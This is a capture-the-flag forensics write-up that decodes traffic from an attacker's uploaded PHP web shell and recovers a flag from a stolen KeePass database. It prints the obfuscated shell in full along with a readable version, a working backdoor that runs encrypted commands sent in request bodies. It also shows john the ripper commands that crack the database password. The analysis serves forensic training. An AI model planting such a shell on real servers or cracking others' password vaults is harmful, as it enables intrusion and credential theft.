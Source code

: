 ##### Forensics - Easy

#### Description:
```text
An attacker has found a vulnerability in our web server that allows arbitrary 
PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what 
seems to be like an obfuscated shell (support.php). We monitor our network 24/7
and generate logs from tcpdump (we provided the log file for the period of two 
minutes before we terminated the HTTP service for investigation), however, we 
need your help in analyzing and identifying commands the attacker wrote to 
understand what was compromised.
```


- We are given a .pcap file and a `support.php` file. Let's inspect the php file first:
```php
<?php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';

$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
?>
```

- It seems that the file is obfuscated, but it's not hard to see what's going on: we just need to do the `str_replace` in the $N and $u variables, then concatenate the rest of the variables:

```php
<?php

function cool()
{
    $k = "80e32263";
    $kh = "6f8af44abea0";
    $kf = "351039f4a7b5";
    $p = "0UlYyJHG87EJqEz6";

    function x($t, $k)
    {
        $c = strlen($k);
        $l = strlen($t);
        $o = "";

        for ($i = 0; $i < $l; ) {
            for ($j = 0; $j < $c && $i < $l; $j++, $i++) {
                $o .= $t[$i] ^ $k[$j];
            }
        }
        return $o;
    }

    if (
        @preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1
    ) {
        @ob_start();
        @eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
        $o = @ob_get_contents();
        @ob_end_clean();
        $r = @base64_encode(@x(@gzcompress($o), $k));
        print "$p$kh$r$kf";
    }
}

cool();
?>
```


- Now that we have decoded the php, we can see what's going on: this is a script that obfuscates http responses and requests, so an attacker can achieve some kind of encapsulation of commands when interacting with a server. This can be used for AV evasion or to give a harder time to SOC analysts.

- Upon inspecting the .pcap and filtering for http, we can see interesting traffic(the last 3 requests stand out):

![](images/http_traffic.png)

- Let's inspect the first POST request, by following the HTTP traffic generated from it:

![](images/first_post.png)

- Looking back at our script, it is evident that the data in the request and response is encrypted with the algorithm present in this script. Let's remember, from the challenge description, that this `support.php` file was maliciously uploaded to the server and now this file is being accessed by the attacker.

#### Decryption of the request body

- These are the lines that encrypt the request:
```php
	    if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
        @ob_start();
        @eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
        $o = @ob_get_contents();
```
- Let's break it down:
	- The `php://input` wrapper is actually just an alias for the request body data. From the contents of the if statement, we can see that the "actual" request data must be interlaced between $kh (`"6f8af44abea0"`) and $kf (`"351039f4a7b5"`). Looking back at the request captured in wireshark, we can confirm this. 
	- The next step is to base64 encode the data, apply the `x` function on it, which is just some xor operations and compress it uzing gzip. This way, we will get a valid request. This is of no interest for us right now, because the server is down and we will probably find our flag in the responses from the wireshark capture.

#### Decryption of the response

- In a similar manner, we just need to perform the inverse operations: base 64 decode, apply inverse `x` (which is just `x` again) and decompress the data.
```python
k = "80e32263"
kh = "6f8af44abea0"
kf = "351039f4a7b5"
p = "0UlYyJHG87EJqEz6"

def x(t, k):
    c = len(k)
    l = len(t)
    o = b""

    i = 0
    while i < l:
        j = 0
        while j < c and i < l:
            o += t[i] ^ k[j]
            j += 1
            i += 1

    return o

def write_response_to_file(response, filename):
    with open(filename, "wb") as file:
        file.write(response)

def decrypt_response(response):
    response = response.replace(kh, "").replace(kf, "").replace(p, "")

    response = base64.b64decode(response)

    response = x(response, k)

    # write_response_to_file( response, "intermediary" )

    response = zlib.decompress(response)

    return response

```

- Everything went well in python until i tried to decompress. I couldn't find the equivalent of php's `gzuncompress()`. I thought it was `zlib.decompress()`, but it did not work.. If anyone knows how to do it properly in python, please leave me a message :). 

- Decrypting in php did the trick :) The script can be found in the `sources` folder.

- Using the script, we can see that the first POST request is equivalent to this:
![](images/decrypted_first_post.png)

- The last POST request:
![](images/last_post.png)

- The attacker tries to get the `pwdb.kdbx` file via HTTP. My guess is that, `.kdbx` is binary file, so base64 was used in order to not lose data. Or it was just for obfuscation purposes, but double obfuscation? Seems weird..
- Anyway, we have to adapt our script to add another base64 decoding when dealing with the last response. Then, we add the content of the respose in a file and we are left with a `.kdbx` file, which I have no idea what is about.
![](images/kdbx_file.png)

- Quick Google searches give us some hints that we can use `keepass2john` to transform this into an hash and then try and crack it. That's exactly what we will do (https://www.thedutchhacker.com/how-to-crack-a-keepass-database-file/):

```bash
$ keepass2john pass.kdbx > kdbx_hash

$ john --wordlist /usr/share/wordlists/rockyou.txt --format=keepass kdbx_hash

Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chainsaw         (?)
1g 0:00:00:01 DONE (2023-06-03 12:55) 0.7518g/s 2177p/s 2177c/s 2177C/s chainsaw..cicero
Use the "--show" option to display all of the cracked passwords reliably
Session completed

$ john --show kdbx_hash
pass:XXXXXXXX

1 password hash cracked, 0 left
```

- In order to view the keepass DB, I used an online viewer: https://app.keeweb.info/

- Uploaded the file, typed the password and we got this:
![](images/last_part.png)
- Upon clicking the password, it is revealed, and guess what, it is the flag ;) 

- Along with that, we got a Github link, with the tool used to obfuscate the php shell: https://github.com/epinna/weevely3. Really cool stuff!

- Phew, this was a bit long for a "easy" challenge. Cheers!